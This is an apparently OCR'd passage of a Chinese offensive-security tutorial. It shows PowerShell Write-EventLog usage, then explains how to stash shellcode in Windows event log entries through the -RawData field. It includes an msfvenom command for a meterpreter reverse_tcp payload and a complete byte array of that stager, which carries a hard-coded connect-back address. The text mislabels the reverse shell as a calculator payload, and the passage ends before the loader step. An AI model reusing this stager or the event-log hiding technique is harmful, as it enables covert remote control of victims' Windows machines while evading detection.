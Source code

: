 ```
Write-EventLog -LogName "Application" -Source "MyApp" -EventID 3001 -EntryType Information -Message "MyApp added a user-requested feature to the display." -Category 1 -RawData 10,20
```

此命令将事件从 MyApp 源写入应用程序事件日志。

示例 2：将事件写入远程计算机的应用程序事件日志

```

Write-EventLog -ComputerName "Server01" -LogName Application -Source "MyApp" -EventID 3001 -Message "MyApp added a user-requested feature to the display."
```

此命令将事件从 MyApp 源写入 Server01 远程计算机上的应用程序事件日志。

实际应用：

1、执行命令

```
Write-EventLog -LogName Application -Source edge -EventID 65535 -EntryType Information -Category 0 -Message "Hello World!"
```

在事件查看器中，可以看到事件ID为65535的日志成功创建在应用程序日志中，消息为Hello World!

###### 0x03 ShellCode加载

只需在Write-EventLog中使用-RawData参数，就可以在事件日志字段中包含二进制数据，而且必须将二进制数据作为字节数组传到-RawData参数中。我们可以将其包含数据的十六进制字符串转换为字节数组，然后再传递。

1、首先，使用msfvenom生成弹计算器 payload。输出格式为十六进制字符串

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f hex
```

利用工具网站（http://gv99.com/text/hex2bytes.html） 转为字节数组

```
$data = [Byte[]](0xFC, 0xE8, 0x8F, 0x00, 0x00, 0x00, 0x60, 0x31, 0xD2, 0x89, 0xE5, 0x64, 0x8B, 0x52, 0x30, 0x8B, 0x52, 0x0C, 0x8B, 0x52, 0x14, 0x31, 0xFF, 0x8B, 0x72, 0x28, 0x0F, 0xB7, 0x4A, 0x26, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0x49, 0x75, 0xEF, 0x52, 0x8B, 0x52, 0x10, 0x8B, 0x42, 0x3C, 0x01, 0xD0, 0x57, 0x8B, 0x40, 0x78, 0x85, 0xC0, 0x74, 0x4C, 0x01, 0xD0, 0x50, 0x8B, 0x58, 0x20, 0x01, 0xD3, 0x8B, 0x48, 0x18, 0x85, 0xC9, 0x74, 0x3C, 0x49, 0x31, 0xFF, 0x8B, 0x34, 0x8B, 0x01, 0xD6, 0x31, 0xC0, 0xC1, 0xCF, 0x0D, 0xAC, 0x01, 0xC7, 0x38, 0xE0, 0x75, 0xF4, 0x03, 0x7D, 0xF8, 0x3B, 0x7D, 0x24, 0x75, 0xE0, 0x58, 0x8B, 0x58, 0x24, 0x01, 0xD3, 0x66, 0x8B, 0x0C, 0x4B, 0x8B, 0x58, 0x1C, 0x01, 0xD3, 0x8B, 0x04, 0x8B, 0x01, 0xD0, 0x89, 0x44, 0x24, 0x24, 0x5B, 0x5B, 0x61, 0x59, 0x5A, 0x51, 0xFF, 0xE0, 0x58, 0x5F, 0x5A, 0x8B, 0x12, 0xE9, 0x80, 0xFF, 0xFF, 0xFF, 0x5D, 0x68, 0x33, 0x32, 0x00, 0x00, 0x68, 0x77, 0x73, 0x32, 0x5F, 0x54, 0x68, 0x4C, 0x77, 0x26, 0x07, 0x89, 0xE8, 0xFF, 0xD0, 0xB8, 0x90, 0x01, 0x00, 0x00, 0x29, 0xC4, 0x54, 0x50, 0x68, 0x29, 0x80, 0x6B, 0x00, 0xFF, 0xD5, 0x6A, 0x0A, 0x68, 0x0A, 0xD3, 0x37, 0x04, 0x68, 0x02, 0x00, 0x1F, 0x57, 0x89, 0xE6, 0x50, 0x50, 0x50, 0x50, 0x40, 0x50, 0x40, 0x50, 0x68, 0xEA, 0x0F, 0xDF, 0xE0, 0xFF, 0xD5, 0x97, 0x6A, 0x10, 0x56, 0x57, 0x68, 0x99, 0xA5, 0x74, 0x61, 0xFF, 0xD5, 0x85, 0xC0, 0x74, 0x0A, 0xFF, 0x4E, 0x08, 0x75, 0xEC, 0xE8, 0x67, 0x00, 0x00, 0x00, 0x6A, 0x00, 0x6A, 0x04, 0x56, 0x57, 0x68, 0x02, 0xD9, 0xC8, 0x5F, 0xFF, 0xD5, 0x83, 0xF8, 0x00, 0x7E, 0x36, 0x8B, 0x36, 0x6A, 0x40, 0x68, 0x00, 0x10, 0x00, 0x00, 0x56, 0x6A, 0x00, 0x68, 0x58, 0xA4, 0x53, 0xE5, 0xFF, 0xD5, 0x93, 0x53, 0x6A, 0x00, 0x56, 0x53, 0x57, 0x68, 0x02, 0xD9, 0xC8, 0x5F, 0xFF, 0xD5, 0x83, 0xF8, 0x00, 0x7D, 0x28, 0x58, 0x68, 0x00, 0x40, 0x00, 0x00, 0x6A, 0x00, 0x50, 0x68, 0x0B, 0x2F, 0x0F, 0x30, 0xFF, 0xD5, 0x57, 0x68, 0x75, 0x6E, 0x4D, 0x61, 0xFF, 0xD5, 0x5E, 0x5E, 0xFF, 0x0C, 0x24, 0x0F, 0x85, 0x70, 0xFF, 0xFF, 0xFF, 0xE9, 0x9B, 0xFF, 0xFF, 0xFF, 0x01, 0xC3, 0x29, 0xC6, 0x75, 0xC1, 0xC3, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x6A, 0x00, 0x53, 0xFF, 0xD5)
```
